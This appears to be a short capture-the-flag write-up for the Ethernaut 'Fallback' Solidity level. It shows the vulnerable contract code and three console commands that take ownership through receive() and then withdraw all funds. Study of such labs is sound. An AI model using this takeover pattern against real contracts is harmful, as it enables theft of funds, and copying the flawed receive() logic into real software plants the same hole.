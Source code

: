 Step 1:

-   call `Contribute` with some WEI

```javascript
await contract.contribute({ value: 1 });
```

```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}
```

Step2:

-   Now we have contributed to this contract with 1 WEI.
-   To claim the ownership of the contract, we have to send almost 10001 ether
-   But we can exploit this contract using `receive()`

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

-   `sendTransaction()` is a global function.

```js
await contract.sendTransaction({
    value: "1",
});
```

Step3:

-   Since we are sending ether to the contract without mentioning any functions, `receive()` will be called
-   Now we will become `owner` of this contract
-   Since we are the owner we can withdraw entire funds in this contract

```javascript
await contract.withdraw();
```
